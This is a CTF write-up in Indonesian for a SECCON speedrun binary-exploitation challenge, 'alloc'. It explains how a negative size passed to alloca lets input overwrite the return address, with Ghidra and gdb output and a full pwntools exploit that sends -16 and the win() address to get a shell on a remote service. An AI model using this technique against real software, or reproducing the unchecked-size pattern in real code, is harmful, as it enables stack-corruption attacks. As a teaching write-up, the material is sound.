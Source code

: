 # Speedrun_seccon —> alloc

## Description:

Can we use a variable for the size of a local array?

ローカル変数の配列のサイズに変数って使えるんですか？

## Problem:

Kita bisa menginputkan variabel `size` dengan nilai sesuka kita karena tidak ada penhgecekan. Dimana variabel `size` akan menjadi argumen fungsi `alloc` untuk menentukan dimana inputan akan dimasukkan ke `stack`. `buf = alloca(size)`

```c
int main() {
  int size;
  char *buf;

  /* Input size */
  printf("size: ");
  scanf("%d%*c", &size);

  /* Input data */
  printf("data: ");
  buf = alloca(size);
  readn(buf, size);

  return 0;
}
```

Tujuan akhirnya masih sama yaitu untuk memanggil fungsi `win`

```c
void win() {
  /* Call me :pleading_face: */
  char *args[] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
}
```

## Solution:

Lakukan decompile menggunakan ghidra, lalu kita akan mendapatkan gambaran tentang fungsi `alloc()` untuk menentukan alamat stack.

```c
uVar2 = (((long)size + 0x17U) / 0x10) * 0x10; // itung alokasi byte
...
lVar1 = -(ulong)((uint)uVar2 & 0xfff); // itung alamat stack (buffer)
```

Yang kalau disederhanain bisa jadi seperti ini

```c
buffer = rsp - (( size - 0x17 ) / 0x10 ) * 0x10)
```

Karena kita bisa menginputkan nilai `size` negatif, makan kita bisa mengatur agar `rsp` menunjuk ke alamat stack lebih tinggi (turun ke bawah) untuk kemudian dapat melakukan `overwrite return address`.

Debugging menggunakan `gdb` untuk mendapatkan nilai yang sesuai.  Kita mencoba dengan menginputkan nilai negatif kelipatan 8 yang < 0x17 (23).

```bash
gdb ./chall -q
Reading symbols from ./chall...
(No debugging symbols found in ./chall)
(gdb) init-peda
gdb-peda$ pd readn
...
0x0000000000401218 <+40>:	mov    edi,0x0
0x000000000040121d <+45>:	call   0x401090 <read@plt>  // kita bisa kasih break point disini, buat liat alamat stack yang ditulis (liat rsi)
0x0000000000401222 <+50>:	mov    rax,QWORD PTR [rbp-0x18]
0x0000000000401226 <+54>:	movzx  eax,BYTE PTR [rax]
...
gdb-peda$ br *0x000000000040121
```

Disini kita coba inputkan nilai size `-16` lalu kita lihat nilai `rsi` `0x7fffffffdde0` lalu kita coba liat jaraknya dengan `return` address. Setelah dihitung jaraknya `24 bytes`. 

```bash
gdb-peda$ tel 20
0000| 0x7fffffffddb0 --> 0xfffffff000000002 
0008| 0x7fffffffddb8 --> 0x7fffffffdde0 --> 0xfffffff0ffffdee0 
0016| 0x7fffffffddc0 --> 0x401380 (<__libc_csu_init>:	endbr64)
0024| 0x7fffffffddc8 --> 0xf7ffe190 
0032| 0x7fffffffddd0 --> 0x7fffffffddf0 --> 0x0 
0040| 0x7fffffffddd8 --> 0x401325 (<main+225>:	mov    eax,0x0)
0048| 0x7fffffffdde0 --> 0xfffffff0ffffdee0 // inputan kita masuk disini
0056| 0x7fffffffdde8 --> 0x7fffffffdde0 --> 0xfffffff0ffffdee0 
0064| 0x7fffffffddf0 --> 0x0 
0072| 0x7fffffffddf8 --> 0x7ffff7de30b3 (<__libc_start_main+243>:	mov    edi,eax) // kita perlu overwrite ini
0080| 0x7fffffffde00 --> 0x7ffff7ffc620 --> 0x5081200000000 
gdb-peda$ p/d 0x7fffffffddf8 - 0x7fffffffdde0
$1 = 24
```

Langsung kita buat exploitnya

```python
from pwn import *
LOCAL = False

if LOCAL : r = process("./chall")
else:  r = remote("133.242.227.104",9992)

elf = ELF("./chall",checksec=False)

win = p64(elf.symbols["win"])

r.sendlineafter(": ",b"-16")
r.sendlineafter(": ",win*4) // Disini karena males bikin inputan dummy bisa aja langsung kasih alamat win*4, atau bisa juga 'A'*24 + win
r.interactive()
```

## Flag:

`RTACON{alloca_w0rks_d1ff3r3ntly_fr0m_malloc_f0r_n3g4t1v3_s1z3}`
